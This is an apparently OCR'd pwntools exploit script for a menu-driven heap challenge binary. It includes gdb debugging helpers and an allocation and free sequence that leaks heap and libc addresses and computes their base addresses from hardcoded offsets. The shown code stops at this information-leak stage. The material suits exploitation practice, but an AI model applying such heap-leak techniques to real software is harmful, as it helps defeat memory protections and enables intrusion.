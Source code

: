 ```python
def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))


def al(d, s=''):
    r.sendlineafter(b'choice> ', b'1')
    if s == '':
        r.sendlineafter(b'size> ', str(len(d)+1).encode())
    else:
        r.sendlineafter(b'size> ', str(s).encode())
        if s <= 1:
            return

    r.sendlineafter(b'content> ', d)

def dl(idx):
    r.sendlineafter(b'choice> ', b'2')
    r.sendlineafter(b'idx> ', str(idx).encode())
def show(idx):
    r.sendlineafter(b'choice> ', b'3')
    r.sendlineafter(b'idx> ', str(idx).encode())

r = start()

# leak heap, libc
al(b'a'* 0x40)
dl(0)
al(b'a', 0x418)
al(b'a', 0x18)
dl(0)

al(b'', 0)
al(b'', 0)
al(b'', 0)

show(1)
r.recvuntil(b'data: ')
heap_leak = u64(r.recvuntil(b'1. alloc', True).ljust(8, b'\x00'))
heap = heap_leak << 12
heap -= 0x11000
show(3)
r.recvuntil(b'data: ')
libc_leak = u64(r.recvuntil(b'1. alloc', True).ljust(8, b'\x00'))
base = libc_leak - 0x21ace0
if args.R:
    base += 0x1000
dbg('heap')
dbg('base')

```
